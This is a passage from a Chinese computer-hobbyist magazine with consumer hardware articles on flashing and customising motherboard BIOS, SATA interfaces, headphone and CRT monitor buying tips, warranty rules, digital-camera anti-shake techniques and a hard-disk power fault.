步骤二：如图6所示，上面为 Loading 项，是调入文件的项，输入要刷新的那个 BIOS 文件的路径，按回车键，程序将自动开始升级操作，待操作完毕后，退出 AMIFlash 程序，重新启动计算机即可！

- Windows 下的大众化刷新工具 WinFlash

之前介绍的两个刷新实例都是在 DOS 系统下进行的，对于没有经历过 DOS 系统时代的朋友来说，指令化的操作是一件比较让人头疼的事。不用怕，除了 DOS 我们还有 Windows 下的刷新工具——AWARD WinFlash。

步骤一：启动“WinFlash”，如图7所示，Win Flash 主界面大致可分为：工具栏、刷新设置、CMOS 设置、BIOS 信息以及 BIOS 刷新视图等。其中工具栏：刷新、打开 BIOS 更新文件等操作的按钮；刷新设置：设置刷新时是否更新 DMI 等内容；CMOS 设置：为刷新完成后，是否清除 CMOS，是否调入 CMOS 原始默认设置；BIOS 信息：显示 BIOS 日期及芯片型号；BIOS 刷新视图：显示刷新的内容和 BIOS ID。

步骤二：在刷新前，一定要保存原 BIOS 文件，点击“备份”按钮，选择备份 BIOS 文件的保存路径，并输入备份文件的文件名，可将原 BIOS 文件保存，如图8。

步骤三：单击“刷新”按钮，选择需要之前下载的 BIOS 更新文件，载入后单击“刷新”按钮开始执行刷新 BIOS 操作，如图9。

步骤四：刷新完成后，根据程序提示重新启动计算机，这样在 Windows 下刷新 BIOS 的操作就完成了。另外，如果你不能确定升级的 BIOS 文件是否正确的话，在重新启动的提示框里选“NO”，然后再用 WinFlash 重新将正确的 BIOS 更新文件写入 BIOS，又或者是将之前备份好的 BIOS 文件刷入 BIOS 即可。

好了，今天的“硬派讲堂”就到这里了，怎么样，看完之后是不是觉得刷新 BIOS 其实也是很简单的呢？先别高兴，正所谓温故而知新，上完课了回家可要好好复习哦。

> （天唯 王磊）

## SATA 到底有多美

### 本文重要名词解释

- SATA：全称为 Serial Advanced Technology Attachment，中文解释为串行先进附加设备，由 Intel， IBM， Dell， APT， Maxtor 和 Seagate 公司共同提出的硬盘接口规范，并已扩展到 DVD 刻录机等存储设备上。SATA 包括正在普及的 1.0 版、已开始有产品出现的 2.0 版本（也叫 SATA II、SATA 3G）和还在制定标准的 3.0 版本。
- PATA：Parallel Advanced Technology Attachment，并行先进附加装置接口，1989 年由 Imprimis、西数与康柏三家公司制定，在 SATA 出现之前一直称为 ATA，现在为了与 SATA 区分，改称为 PATA。PATA 与经常说到的 IDE (Intelligent Drive Electronics，电子集成驱动器) 通常表示的同一个意思。

### 对比 PATA，SATA 外有苗条美

见图1，左边为一块 ATA100 接口的 PATA 硬盘和外接数据线、电源线；右边是 SATA 接口的硬盘和相应的数据、电源线。图1中可以看出，SATA 硬盘的数据线要细很多，这是因为 PATA 接口需要 40 条信号线传输数据，而 SATA 大大加快每条信号线的传输速率，将数据线总数减少到只需要 4 条。要知道，数据信号是通过电流传输的，而从物理学知识中可以知道，电流在信号线中流动又会产生磁场，使附近的其他电流中的信号受到干扰。这样，PATA 中相互干扰的 40 条信号线决定了 PATA 的传输速度不会太高，甚至在 ATA66/ATA100 两种标准中，PATA 信号线中还额外附加了 40 条纯粹减少干扰用的屏蔽线。与 PATA 相比，SATA 线缆的总共 4 条信号线之间的相互干扰就小多了，这让 SATA 在使用中很容易体现如下优势：

首先，信号线长度大大加长。PATA 信号线最长只能到 40 厘米，而 SATA 信号线可以长达 1 米，这让 SATA 设备的安装、布线比 PATA 设备更方便容易。

其次，减少故障发生几率。与 PATA 的 40 条信号线以及相连接的 40 根脚针相比，SATA 信号的 4 条信号线和防呆插口大大减少了信号线出故障的可能性。相信有不少用户在安装 PATA 设备时候遇到过接口插反、脚针错位、数据线折弯时损坏等问题，与此相比，结构简单并有防呆设计的 SATA 信号连接线则完全避免了这样的问题。

最后，SATA 更利于机箱散热。SATA 信号线比 PATA 信号线细多了，占空间更小，也不会阻挡机箱中的空气流动，在电脑配件发热越来越大时，使用 SATA 设备更利于机箱内部散热。

### 新特性不少，SATA 内功有特色

SATA 作为应用于未来较长时间的存储接口，也拥有了许多 PATA 不具备的技术优势。

SATA 设备支持热插拔。这不但能在需要长时间持续运行的专业应用环境（如服务器、工作站）下，无需关机就能增减更换 SATA 存储设备，而且对普通用户来说，也可以很方便地将 SATA 存储设备作为便携移动存储设备，这可比加了一层壳，并把数据格式转换了几次的现在的 USB 外置移动存储设备方便多了。

## 耳机选购除了听，还是要看的

### ——浅谈优质耳机的一些外观特征

不少朋友都会为自己的 MP3 等随身播放器选配一副效果更好的耳机（本文所指耳机均包括耳塞）来获得更好的听音享受。但到市场一看，琳琅满目的产品让人眼花缭乱，而天差地别的价格更让人疑惑，不禁问道：为何看起来差不多的耳机，价格差距会如此悬殊呢？如何判断我们所选购的耳机是物有所值的呢？到网上了解了一下，大多都针对耳机的驱动类型、振膜结构、线圈、导线材料等内在结构进行介绍，虽然让人受益匪浅，但在实际购买中是不可能现场将耳机打开来看的，而且就算可以现场拆开检验，对于不具备专业知识、经验、技能、检测设备的普通消费者来说，也没有什么实际的参考价值。难道真的就没有一些实际有用的参考依据了吗？
事实上一副品质优良、出自正规制造商的耳机，不仅拥有深厚、优秀的内在“功底”，还会在细微之处体现其制造实力与工艺水平，以进一步提升其品牌档次和形象。就此，笔者走访了部分专业的耳机专卖店和耳机发烧玩家，并总结出以下几点，希望能给大家在购买时提供一些更有参考价值的信息。

### 耳机线

耳机线是信号从音源传输至耳机的必由之路，传输过程中受到的干扰、损失越小，失真当然也就越小，因此性能优良的耳机也会有一条做工、性能都很棒的耳机线。一般耳机线使用的材料有电解铜、无氧铜等几种，更好的还会采用结晶无氧铜、单晶无氧铜等高级材料，还会采用多层结构以提升其抗拉性，保护内部导线，避免导线断裂等问题。不过，正如前面提到的那样，这些都是内在的东西，除非商家能现场提供一些样品的截面对比。不过，好的耳机线都具备一些共通的外在特征，如其使用的材料都很讲究，最起码的要求是不容易老化变硬，同时质感柔韧而富有弹性。而要做到这些，没有好的材料和制造工艺是不可能的，成本自然也会因此而增加。

### 耳机插头

耳机的插头也是一个观察重点，它直接影响着音质。好的耳机插头，为了保证与接口良好的接触，降低信号在此环节的损失，都会在制造工艺和镀层工艺上下功夫。不过，由于该技术已经很成熟了，虽然要做到很精不易，但一般的厂家都能做出不错的镀金插头，因此在区分上更是难上加难。另据一部分专业人员介绍，1 克金子能给上万个耳机插头镀金，其成本差异不明显，所以插头是否镀金并不能作为判断标准。但是，由于生产工艺、制造要求和检测标准的要求不同，品质优良的耳机会在做工和模具上要求更加精细，因此我们可以观察包裹耳机插头的塑胶部分的做工，看看接合处是否平滑没有毛刺，上面的图形标识、防滑波纹是否清晰等。另外，镀层工艺好的插头都会具备一种明亮的光泽，且在多次插拔之后，也不会留下明显的划痕。

### 连接部分

使用过耳机的朋友都知道，耳机有几个位置是最容易“受伤”的。主要是耳机的几个连接部分；如耳机线与插头的连接部分、耳机的分线部分，还有耳机线与耳机（耳塞柄）的连接部分。通常来说，正规厂商都会给这几个部分进行特别的保护，如插头与耳机线连接的部分、耳机与耳机线连接的部分就会用质软且弹性较好的橡胶进行缓冲，使耳机线与接口在拉扯受力时自然弯曲，避免拉成死角，降低断裂的危险。品牌信誉更好的厂商，更会给这些部分加上一些简单、实用的特别设计，而这些都直接体现厂商的实力。

### 耳塞

耳塞是发声的部分，也是与人耳紧密结合的部位，其设计、做工不仅仅影响耳机的音质，更决定其舒适度。品质优良的耳机都会特别注意这部分的做工，如耳机上出音的小孔以及耳塞柄上的导音孔等，都不能有毛刺，而且都会做得特别圆滑，以保证耳机腔内的气体流动顺畅，避免湍流对声音的影响。而要做到这一点，就必须有非常精确的模具以及精细的做工。据业内专业人员介绍，这些细微之处的完美程度，往往是区分品牌耳机与杂牌耳机的关键所在。

绍，目前铁三角、SONY、森海塞尔等名牌耳机厂商所使用的耳机模具都是由国外制造的，国内暂时还没有能力制造如此精细的模具。

如图5所示，箭头所指为耳机的小孔和音箱的导向孔作用类似，属于半开放耳机的范畴，即在某一个方向上和外界相通，但是在其他部分则是用阻尼材料填充。导向孔的作用是当振膜振幅很大的时候，及时地保证耳机中的气压和外界气压平衡，避免振膜受损。从空气流动的物理特性来说，导向孔的开口应该做得光滑，没有棱角，这样使气体流动时不产生湍流，对声音是有好处的。

## 头带

好的耳机戴上时略有压力，保证了耳机的封闭状态(有些半封闭、开放式耳机例外)，但不会形成压迫感。而那些容易形成压迫感的耳机戴久了之后，会觉得耳朵特别酸疼。同时，由于空间上的压迫感也会造成听音时的心情压抑(当然这点会因人而异)，而这都是一款优质耳机不应该有的缺陷。因此，一款好耳机的头带设计都是符合人体特征的，做工上、用料上也显得更加优秀。

如图6所示，左图的外形比较常见，要特别注意其弹性和细微之处的设计和用料，做得好的耳机戴起来会很舒服，头顶几乎感觉不到压迫。而右图的设计则比较特殊，一般只有高端耳机才会采用。

## 耳罩

耳罩是头部与发声单元接触的部件，它使耳朵与振膜形成一段距离，并在耳机和头部之间形成一个腔室，以增强耳机的声效。与一般的耳机相比，品质优良的耳机，耳罩都会采用柔软舒适的海绵填充，外面蒙上优质的皮革或绒布。耳罩质感松软，大小恰当，就算长时间佩戴也不会有不舒服的感觉。

如图7所示，PHILIPS SBC HP890的耳罩就使用优质海绵，外面蒙上蓝色的天鹅绒面料，佩戴起来感觉非常舒适。

(火炎焱)

## CRT显示器选购的5个妙招

### 巧看认证

在显示器的环保认证中，主要有TCO'03、TCO99、TCO95、TCO92、MPR II和EPA(能源之星)六种。TCO'03是目前最高等级的认证，通过该认证的显示器在低辐射、节电和环保等性能都是目前最高的，其次是TCO99，依次是TCO95、TCO92、MPR II和EPA。目前，市面上出售的CRT显示器大多都已经通过了TCO'03和TCO99(见图1)，其他的环保认证已经很少用了。所以大家在选购和验货的时候，一定要注意这点，太低的认证或者没有通过环保认证的，最好还是不要购买了。

### 巧测抗干扰能力

购买显示器时，想要知道显示器的抗干扰能力如何，可以用手机来测试一下。(见图2)就是在显示器的附近用手机打电话，如果这时显示器的画面抖动严重，就表示这款显示器的抗干扰能力比较差。但这种方法只适合于CRT显示器。此外，具备辐射屏蔽、防干扰的CRT显示器，在外壳下都会有一个金属屏蔽罩将整个显像管罩住，也只有这样才能对辐射及干扰进行有效的屏蔽。在选购时，透过显示器背部小孔向里面看，如果可以看到一个屏蔽罩的金属罩上有散热孔且形状与外壳一致，就可以认定有屏蔽罩；如果能够直接看到电路板、电线、电圈等那就是没有。另外，一些低档显示器为了节省成本，屏蔽罩被缩减到仅仅只遮挡电子枪最末端的电路板，这也是不可取的。

### 巧测刷新率

在选购显示器中，刷新率应与分辨率一起考虑(见图3)，一般17英寸显示器在800×600分辨率下应能达到100Hz的刷新率，而在1024×768分辨率下最少也要达到85Hz。需要注意的是，二手CRT显示器在同一刷新率的情况下，其闪烁的程度可能会因为显像管及从属电路的老化程度不同而有差别。这时我们可以用主观一些的“土方法”去判断：全屏开启一个Word文档，然后测试者正对着显示屏，眼睛望向显示器右(左)上角的外面，用余光感觉显示器的闪烁状况，闪烁的感觉越明显的，该显示器的显像管就有可能老化得越严重。不过，闪烁的感受因人而异，在拿不准的时候，可以用来参考一下。

### 巧测高频稳定性

高频稳定性差的显示器往往会让人在使用一段时间之后感到明显的头昏眼胀。这是因为显示器在随着图像的变化而不断地进行“呼吸”，一般来说呼吸效应在2mm范围内，是不会给人造成很明显的影响，也很难通过肉眼测试出来。而一些高频稳定性特别差的显示器，用肉眼检测就能检测出来。测试的方法很简单，只要注意在调整分辨率之后的那1秒钟内，整个显示画面是否有如呼吸一样的缩放变化。缩放变化的幅度越大，其高频稳定性就越差。

### 巧测消磁电路

现在的显示器大多都讲消磁的功能与OSD菜单结合起来了，但也有一部分低端显示器没有在菜单中提供单独的消磁功能，只在每次开机时才自动进行消磁的动作。要检测这部分显示器的消磁能力，可以将显示器翻转90度侧放着开机，这时屏幕会出现明显的色彩紊乱，这是因为显示器受到地磁改变的影响而出现的偏磁现象。这时，你就可以在OSD菜单中使用手动消磁功能进行纠正。如果是自动消磁的显示器，则需要对显示器开关一次来进行消磁纠正。

一般来说，只要显示器的消磁功能正常，一次就可完全纠正磁化现象，但质量不好的显示器可能就需要多次消磁操作才能完全纠正，更差的可能就根本不会有变化。

### 你知道吗？

LCD显示器的刷新率与CRT相比有着原理上的区别，LCD即使在60Hz的较低刷新率下也不会出现闪烁的情况，所以在选购LCD显示器时，不用过于注意其刷新率的指标。

(广东 年年都旺)

## 保修期内更换的产品续保无期？！

### 更换产品的三包期应从更换日开始算起

国家2002年9月1日实施的《微型计算机商品修理更换退货责任规定》中第十七条规定：“在三包有效期内，选购件出现本规定《微型计算机商品性能故障表》所列性能故障，销售者应当负责为消费者免费调换新的选购件。选购件更换两次后仍不能正常使用的，销售者应当负责免费为消费者退货，并按发货票价格一次退清货款”，第二十二条规定，“更换主要部件时，应当使用新的主要部件。更换后的主要部件三包有效期自更换之日起重新计算，记录在维修记录的维修情况一栏中。”

因此，此供货商是违反了《微型计算机商品修理更换退货责任规定》，如果读者朋友也遇到此情况，可向当地消费者协会投诉。据记者的了解，在中国的的确普遍存在这个现象，希望厂家能重视售后服务。

### 关于更换件的误解

双敏官方网站上的《UNIKA产品三包细则》中第四条也承诺：“在三包有效期限一年内，若UNIKA主板、显卡或刻录机等商品出现三包规定《微型计算机商品性能故障表》所列性能故障时，经两次维修仍不能正常使用，则免费替消费者调换同型号同规格商品。若同型号同规格商品停产，将调换等同于原产品性能或当前价值的UNIKA商品。”

对于“调换等同于原产品性能或当前价值的UNIKA商品”，记者咨询过律师，他是这样解释的：双敏火旋风858A(ATI R9100)已经停产，所以更换双敏火旋风9206PRO(ATI R9200SE)是完全说得过去，就算更换成当前价值的产品，双敏火旋风858A也应该是以当前的报价为准，而不是以以前的报价或购买时的价格为准。因此，我们认为双敏调换火旋风9206PRO显卡也可以说是合理的。

## 让你的照片更清晰 DC“防抖”有绝招

转眼五一黄金假日已经到了，不管是喜欢旅游，还是喜欢和朋友聚会的你，是否都与笔者一样，会用手中的数码相机(以下简称DC)将这些难忘的时刻忠实地记录下来呢？然而，在很多聚会的场所和旅游的时候，光线都不怎么好，拍出来的照片不是模糊、发虚，就是被硬硬的闪光将整个场面的气氛破坏了。有什么简单实用的“招数”可以既能记录当时的气氛，又能尽可能地拍出更清晰的照片呢？就相机本身来说，就有很多这样的功能。我们只要稍微变通一下，灵活使用就可以很轻易地拍出既清晰又能保存现场气氛的照片来。下面，笔者就先“过”三招给大家使使。

### 第一招:DC防抖“术”

这招很简单，只要你的相机具备Anti-Shake(防抖)和Image Stabilization(图像稳定)的防抖技术，提供这样的功能的话，轻轻按动几个键就可以在一定程度上降低机身抖动对拍摄的影响。目前，拥有这种技术和功能的DC有不少，且价格也不高。如佳能的PowerShot S1 IS、柯尼卡美能达的A1/A2/A200、尼康的Coolpix8800、还有松下新近推出的FX/FZ系列相机等都具备防抖动的功能。但要注意的是，开启防抖功能后，快门速度并不会提升，其提升的只是成片率。也就是说，假设开启防抖功能之后能提升2挡快门速度的成片率的话，当你的快门速度是在1/16秒时，开启了防抖功能之后，你所拍摄出来的成片(可以理解为清晰的照片)张数与总拍摄张数的比例，将会与1/60秒时的成片率相当。而一般来说，开启防抖功能之后，都能提升2~3挡的成片率。

> 小提示
开启了防抖功能之后，会明显增加DC的耗电量，因此在不使用时别忘了将该功能关闭。

如图1，只要轻按一下“IS”的开关按钮，即可打开佳能PowerShot S1 IS的防抖动功能。该功能采用佳能移相型光学图像稳定技术(shift-type optical Image Stabilizer technology, 简称IS)，当镜头内的陀螺仪侦测到微小的运动(抖动)时，通过补偿镜片组，根据镜头的运动方向及位移量加以负补偿，从而有效克服因相机振动产生的图像模糊。

如图2所示，按下防抖功能按钮之后，柯尼卡美能达 DiMAGE A1所具备的Anti Shake CCD防抖动技术即被打开。当检测到图像有抖动时，CCD整体会水平(垂直)移动来进行负补偿，从而消除抖动所造成的影响。

### 第二招:连拍必杀技

顾名思义就是利用DC的连拍功能，拍摄时一次按下快门按钮不松手，对拍摄对象进行连续的画面捕捉，并生成多幅照片，再从其中挑选出最清晰的一幅保存。由于在这个连续拍摄的过程中，拍摄者不需要再对相机有任何操作，所以拍摄者能更容易地保持拍摄姿势和控制呼吸频率，降低震动对拍摄的影响。再加上连拍生成多幅照片，在一定程度上大大增加了拍摄的成功率。不过，在使用这一招的时候会耗费存储卡的大量存储空间，所以建议大家把连拍张数控制在5张以内，并根据场景的重要性进行连拍，同时配备256MB以上的大容量存储卡以保证拍摄对存储空间的需要。

> 小提示
一些数码相机标称的连拍张数很高，但实际上，由于存储卡写入数据的过程需要一定时间来处理，因此，尽量采用高速存储卡才能保证连拍的性能。

如图3，开启连拍模式后，在LCD取景器上会有相应的图标提示。
另外，一些厂商也在相机中加入了类似的功能，如尼康的CoolPix 3700系列DC所提供的BSS(最佳拍摄选择)功能，实际上也是利用了这种连拍防抖动的原理来实现的(只不过这种模式只有在选择很小的分辨率时才能实现)。

如图4，在菜单中开启BSS功能之后，用户每按下一记快门就会自动连拍多幅照片，并由程序自动选择其中一副锐度最好(也就是最清晰)的保留。

### 第三招:左右互搏

这一招主要是通过选择正确的DC拍摄模式，并根据环境光线状况、个人经验判断，对快门、ISO(感光度)等进行主观性的设定，通过整体协调和牺牲画面亮度的方式去获得更清晰的画面，从而达到防抖动的目的。这个听起来好像很复杂，但实际操作起来却很简单。首先将DC的拍摄模式设定为快门优先，并在1/25~1/80秒快门速度范围内选择一个你所能控制的快门速度(多尝试几次就能找到)，然后将ISO调整为100。这样，DC的设定就算基本完成了。而在拍摄的时候，我们还要主动地根据LCD取景器上的明亮变化去调整快门速度，并不断地在拍摄清晰度与正常曝光之间进行衡量、取舍。而取舍的原则就是先确保在尽可能清晰的前提下，尽量让画面的曝光正常一些，以保证欠曝部分的画面细节在经过Photoshop调整后也能再现出来。

如图5，将转盘拨动到TV挡，即开始使用快门优先拍摄模式。
用这招拍出来的照片，大部分都会有欠曝的问题，但这个问题我们可以用后期处理来补救。Photoshop、Photolmpact、ACDSee等工具都是很好的后期处理工具，就拿Photoshop来说，只要按下Ctrl+L即可调出“色阶”调整面板，拖动直方图下的滑块即可对照片的明亮关系进行调整。

如图6，调整时要注意画面预览的效果。

名词解释
欠曝：简单来说就是画面整体的曝光不足，直接表现出来的就是画面亮度不够。
快门优先(Shutter Priority):是DC上的一种半手动拍摄模式，通常用S或Tv来标识。它和大家常用的AUTO和P挡拍摄模式不一样，它能让用户根据需要自如调整快门速度。
ISO：就是感光度，它决定了感光器件对光线的敏感程度。ISO值越高，其感光器件的敏感度越高。如在同等光线条件下，ISO为100时的快门速度会比ISO50的高很多。但对于一般的消费级DC来说，能上到100的ISO值已经很不错了，再高的话，画面上就可能会布满噪点，惨不忍睹了。

### 火速链接

《谈谈“防抖”》(http://www.cphoto.com.cn/emag/2004-11/p158.htm)一篇刊登在《中国摄影》杂志关于相机防抖技术的文章，对目前应用最广的光学防抖和CCD防抖技术进行了分析介绍。
《各施各法:数码相机防抖技术一览》(http://publish.it168.com/2004/0910/20040910007201.shtml)这篇文章不仅对松下、佳能、柯尼卡美能达、奥林巴斯等品牌所拥有的防抖动技术分别进行了介绍，还提供了很详尽的相关产品信息链接。

（小黑马）

## 硬派讲堂之特色刷BIOS

在上一期的“硬派讲堂”中为大家介绍了如何刷新主板BIOS，那么本期我们将理论结合实际，为大家讲讲如何修改主板BIOS的开机LOGO和开机信息。
普通计算机在启动时屏幕上都会出现“能源之星”的LOGO，很多主板厂商也把它换成了自己的品牌标志。其实，也可以把EPA标志换成自己的名字或者喜欢的图案。用软件把里面的LOGO文件换掉，把改好的BIOS文件写进FLASH ROM里。

### AWARD BIOS 修改开机画面

1.  准备工作

    除了BIOS刷新软件AwdFlash和BIOS修改软件CBROM外，我们还需要相应主板的BIOS文件。

2.  实战演练

    制作一张Windows 98启动盘，把刚刚下载回来的主板BIOS、BIOS刷新软件AwdFlash、BIOS修改软件CBROM一起拷贝到一个目录中。然后用该启动盘启动计算机，进入DOS。
    步骤一:输入“CBROM BIOS.bin /D”后(这里BIOS.bin为主板BIOS文件名，它和CBROM在同一文件夹内)，见图1。

    图1 (BIOS文件结构列表)
    | 模块名称 | 大小 | 偏移 | ... |
    | :--- | :--- | :--- | :--- |
    | ... | ... | ... | ... |
    | OTHER | 17580 | 404E:0000 | ... |
    | ... | ... | ... | ... |

    图1框中所示为BIOS LOGO开机图片，从中可以看出，这些文件为OTHER模块。而主板的LOGO显示是根据计算机使用的CPU类型来显示不同LOGO的，如你使用P4 CPU，它就会显示P4的LOGO。
    步骤二:由于BIOS需要根据CPU型号调用相应的LOGO图片，因此，这个图片必定要有对应的地址，才可正常调用。只要弄清楚主板所安装的CPU及其调用的图片，就可以将我们自己做的LOGO图片，加入到对应的OTHER模块中即可。
    首先，删除对应的LOGO选项，如我们要删除OTHER(404E:0000)模块，只要执行“cbrom bios.bin /other 404E:0000 release”，然后将我们制作好的图片，执行“cbrom bios.bin /other 404E:0000 LOGO.BMP”按原来的地址正确加入即可，见图2。最后将修改好的BIOS文件，按照上次教的刷新主板BIOS方法，写入主板BIOS即可。

    图2 (添加LOGO模块后的BIOS文件信息)
    | 模块名称 | 大小 | 偏移 | ... |
    | :--- | :--- | :--- | :--- |
    | ... | ... | ... | ... |
    | OTHER | 17580 | 404E:0000 | LOGO.BMP |
    | ... | ... | ... | ... |

> 小提示
开机LOGO用的是分辨率为136×126的黑白单色位图，BMP文件格式，文件大小尽可能的控制在10KB以内。

### AMI BIOS 修改开机画面

1.  准备工作

    这里将会用到AMIBCP，然后开始制作开机画面所需的PCX格式图片。因为AMI BIOS支持彩色的全屏开机画面，所以我们先用Windows画图工具制作一幅640×480点阵，256色的BMP文件，但体积必须小于64KB。然后再用Photoshop把它转化为PCX格式文件，最后将该文件保存到存放BIOS文件及AMIBCP的同一目录下。

2.  实战演练

    在AMI BIOS中，有两个模块文件和全屏开机画面有关，一个是“Graphic Logo Code”(全屏画面的处理程序)，另一个是“Graphic Logo Data”(全屏图形文件)。
    步骤一:执行AMIBCP，程序会提示你输入BIOS的文件名，正确输入BIOS文件的全称后结果见图3。进入AMIBCP软件的主菜单，用方向键移动光标到“Configure BIOS Features”选项。在Configure SETUP Data中，选择Advance CMOS Setup，把Initial Display Mode的默认值由BIOS改为Silent，见图4。打开全屏开机画面的设置开关，这样一开机就会显示你的个性全屏开机画面。

    步骤二:返回主菜单，将光标移动到第三项“Edit BIOS Modules”(BIOS模块编辑)，选择进入后找到33号模块“Graphic Logo Data”，它就是全屏幕图形文件模块，整个模块的最左边数字是模块的序号，接下来分别是模块名、源文件大小、在文件包中的大小、地址信息。
    将光标移动到“Graphic Logo Data”模块上，按空格键，在弹出的输入栏中填写PCX文件名，这样可以备份出原BIOS中的开机画面文件，然后在该项上按“Insert”键，并输入新制作的PCX图标文件名。此后，软件会提示你加入模块的代码类型，用“PageUp”或“PageDown”上下转换，找到“33号Graphic Logo Data”，然后保存BIOS文件退出。最后再将修改好的BIOS文件刷入到主板BIOS中就大功告成了！

### 修改开机信息

计算机在启动的一瞬间，会出现一段信息称为“BIOS Message”，显示的是有关主板的相关信息，但即便是同一厂家的主板，也会因为型号的不同而显示截然不同的BIOS Message，那么能不能把我们喜欢的信息加入到开机信息呢？当然可以！

1.  准备工作

    MODBIN.EXE是Award公司提供的一个用来修改BIOS设置的软件，我们用它可以修改BIOS设置中的菜单项和主板型号(使用程序: MODBIN6.EXE、AwdFlash.EXE)。

2.  实战演练

    新建一个目录，并把刚才用AwdFlash备份出来的BIOS备份文件YS.bin、MODBIN6.EXE、AwdFlash.EXE拷贝到这个目录下，接下来在DOS中运行MODBIN6，并读入BIOS文件YS.bin，见图5。
    选择“Change BIOS Message”项，开始对“BIOS Message”进行编辑。在编辑文字时，可以用方向键来移动光标，用“Del”或“Backspace”删除文字，“Insert”键则可以切换“Insert”或“Replace”模式。最后选择第一个选项“Update File”(更新BIOS文件)，进行该操作会保存修改的结果并自动退出Modbin6。接下来，把修改好的BIOS.BIN刷到主板BIOS里，重新启动计算机，就可以看到你刚才修改的结果了。

### 修改主板BIOS，让老主板辨识新CPU

随着CPU型号的不断增多。相对老一些的主板在更换新型号CPU后就会出现一些不能正确识别的问题！除了更新相应厂商所提供的最新BIOS外，我们还可以手动修改BIOS中的CPU识别代码，让我们的老主板识别更多类型的CPU。

1.  准备工作

    我们需要一个BIOS刷新软件AwdFlash和一个BIOS修改软件CBROM(如果你的主板用的是AMI或其他厂商的BIOS那么请用相应的软件进行操作)。另外，我们还需要到一个主板大厂官方网站上下载一个可以支持你所要更换CPU的主板BIOS文件，如技嘉、华硕等。

2.  实战演练

    步骤一:我们要把刚刚下载回来的主板BIOS、BIOS刷新软件AwdFlash、BIOS修改软件CBROM一起拷贝到一个目录中。然后在纯DOS下进入这个目录并执行“C:\CBROM xxx.bin /d”来显示整个BIOS文件的结构(注:其中xxx.bin是笔者刚刚下载的主板BIOS的文件名)，见图6。
    从图6中我们看到新BIOS文件中的“Micro Code Information”显示了它所支持的CPU的封装形式和CPU的代码。另外，还可以明显的看到第二项，也就是“CPU micro code”(微处理器代码)。在“Micro Code Information”里所显示的内容其实是被存储在第二项的文件里。我们要做的就是把新BIOS文件中的CPU代码部分提出来，再重新添加到旧的BIOS中去。

    图6 (BIOS文件结构列表)
    | 项目 | 描述 | ... |
    | :--- | :--- | :--- |
    | 1. | Original PCI ROM | ... |
    | 2. | CPU micro code | cpucord.bin |
    | ... | ... | ... |
    | Micro Code Information | ... | ... |

    图6中看到的cpucord.bin文件，就是的源文件；我们需要把它从BIOS中分离出来。执行“CBROM cpucord.bin /isa extract”然后根据系统提示，输入cpucord.bin保存提取出来的微处理器代码。(注:这里一定要用原文件名，以便以后的操作。)
    步骤二:执行“C:\CBROM YS.bin /d”显示整个BIOS文件的结构(YS.bin是老主板的BIOS文件)。
    跟着执行“CBROM YS.bin /cpucode cpucord.bin”命令，用刚才提取的cpucord.bin文件将老BIOS文件中的cpucord.bin文件覆盖，把新的微处理器代码添加到文件名为YS.bin的BIOS文件中。
    最后，将修改后的BIOS文件——YS.bin刷新到主板上就可以了！

> 小提示
刷新BIOS具有一定的危险，动手前请做好准备。一旦刷新失败，请参考 (http://www.r88.com/bios/bios.htm) 文章进行修复。

(天津 王磊)E-mail:cf_hdb@cfan.com.cn

电脑爱好者

硬件

## 差点被电源线“谋杀”的硬盘

硬盘会被电源线“谋杀”？不会吧！然而，这却是真真切切地发生在笔者机器上，险些被“谋杀”的是一块几乎全新的三星80GB硬盘。

某日，笔者的机器突然死机了，而且在死机的同时，机箱面板上的硬盘指示灯一直红红的亮着。反复开机，情况依然如此。当时，第一反应就是操作系统崩溃了，接下来就是重装系统、驱动、软件等常规性的恢复操作。然而，即使是在恢复阶段，也出现了好几次相同的死机现象。

根据经验判断，这一定不是软件的问题，所以笔者拆开电脑机箱，对CPU、内存、显卡等关键部件进行了检查和替换，结果均不是这些部件的问题。

正在迷惑之时，电脑又死机了。而这个时候，从硬盘所在方位传来一点不太正常的声音。为了验证是不是硬盘的问题，笔者在重启电脑之后，进入BIOS检测硬盘，却怎么也检测不到硬盘。完了！是不是硬盘坏了啊？重新开机，再检查一次却又能检测到硬盘了。估计是数据线的问题，笔者马上找来了一根硬盘数据线，替换了原来的数据线，但故障依然如故。

想到前面听到的硬盘声音，那确实是一种类似硬盘电机反复启动的声音，这里面肯定有文章！于是，笔者将耳朵尽可能的贴近这块硬盘，不错，那确实是硬盘的电机在反复地进行启动时发出的声音。用手摸了摸硬盘盘体，盘体振动怎么这么大啊，而且以前这块硬盘在工作时是很安静的，而现在却颇像以前的迈拓“钻石六代”硬盘那样发出“狂吼”声。

为了验证硬盘是否损坏，笔者将这块硬盘拆下来，接到单位的电脑上。这时，这块三星硬盘却又能老老实实、安安静静地工作了。看来是这块硬盘以前的工作环境影响了硬盘，造成硬盘电机时不时地重启。而硬盘电机的反复重启，肯定与硬盘的供电有关，但笔者所使用的是品质很不错的台达300W电源，因此不太可能是电源的问题。会不会是电源线和接口的问题呢？由于这台电脑的硬盘托架离电源的位置较远，所以笔者用了一根电源延长线。在重点检查了这根延长线的D型电源接口后，发现是接口里面的簧片和电线已经快脱落了。估计是这接口本来就焊接得不好，在几次插拔之后出现了焊点剥离，造成了接触不良的问题。马上调整硬盘位置，用电源自带的D型电源接口给它供电之后，一直到现在，再也没出现过死机的问题。

正是由于电源接口的接触不良，使得硬盘得不到正常而稳定的电源供应，从而造成硬盘不断重启导致死机的问题。区区一个电源接口，就差点“谋杀”了笔者的新硬盘，看来，硬盘的供电，是千万马虎不得的。

（梦幻笑容）

## MPV、MP3的加减法

MP3的同质化问题已经非常严重，除了拼价格、拼外形、拼容量，MP3已经发掘不出任何有意义的卖点。其实谁都知道，声色俱全的MP4播放器才是最有希望的数码产品，它集音乐、视频播放于一身，能够终结MP3者非此君莫属。

但目前最大的问题就是MP3和MP4之间存在着巨大的价格落差，按照现在的行情，闪存式MP3最低1xx元级，硬盘式MP3在1xxx元级，而MP4却是5xxx元级或更高，这种高价格不是一般消费者所能承受的。也许是为了弥补这个缺憾，最近市场上出现了一种叫MPV的数码产品（见图1），它既可以播放MP3音乐，又可以播放视频文件，而且价格低廉，仅在千元左右，既有MP3的低价优势，又有MP4的功能特点。看到这里，大家也许会产生一个疑问，MPV究竟是什么？它会成为MP3，甚至MP4的终结者吗？

### 不可不知的MPV标准

